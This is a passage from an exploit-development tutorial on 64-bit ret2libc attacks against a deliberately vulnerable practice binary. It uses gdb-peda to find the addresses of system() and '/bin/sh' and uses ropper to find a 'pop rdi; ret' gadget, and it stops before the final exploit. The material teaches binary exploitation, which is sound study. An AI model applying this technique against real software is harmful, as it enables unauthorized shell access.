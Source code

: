 You can also grab the precompiled binary [here](https://gist.github.com/superkojiman/595524f6b96c79380568). 

In 32-bit binaries, a ret2libc attack involves setting up a fake stack frame so that the function calls a function in libc and passes it any parameters it needs. Typically this would be returning to system() and having it execute "/bin/sh". 

In 64-bit binaries, function parameters are passed in registers, therefore there's no need to fake a stack frame. The first six parameters are passed in registers RDI, RSI, RDX, RCX, R8, and R9. Anything beyond that is passed in the stack. This means that before returning to our function of choice in libc, we need to make sure the registers are setup correctly with the parameters the function is expecting. This in turn leads us to having to use a bit of Return Oriented Programming (ROP). If you're not familiar with ROP, don't worry, we won't be going into the crazy stuff. 

We'll start with a simple exploit that returns to system() and executes "/bin/sh". We need a few things:

- The address of system(). ASLR is disabled so we don't have to worry about this address changing. 
- A pointer to "/bin/sh".
- Since the first function parameter needs to be in RDI, we need a ROP gadget that will copy the pointer to "/bin/sh" into RDI. 

Let's start with finding the address of system(). This is easily done within gdb: 

```text
gdb-peda$ start
.
.
.
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x7ffff7a5ac40 <system>
```

We can just as easily search for a pointer to "/bin/sh":

```
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
ret2libc : 0x4006ff --> 0x68732f6e69622f ('/bin/sh')
ret2libc : 0x6006ff --> 0x68732f6e69622f ('/bin/sh')
    libc : 0x7ffff7b9209b --> 0x68732f6e69622f ('/bin/sh')
```

The first two pointers are from the string in the binary that prints out "Try to exec /bin/sh". The third is from libc itself, and in fact if you do have access to libc, then feel free to use it. In this case, we'll go with the first one at 0x4006ff. 

Now we need a gadget that copies 0x4006ff to RDI. We can search for one using ropper. Let's see if we can find any instructions that use EDI or RDI: 

```
koji@pwnbox:~/ret2libc$ ropper --file ret2libc --search "% ?di"
Gadgets
=======


0x0000000000400520: mov edi, 0x601050; jmp rax;
0x000000000040051f: pop rbp; mov edi, 0x601050; jmp rax;
0x00000000004006a3: pop rdi; ret ;

3 gadgets found
```
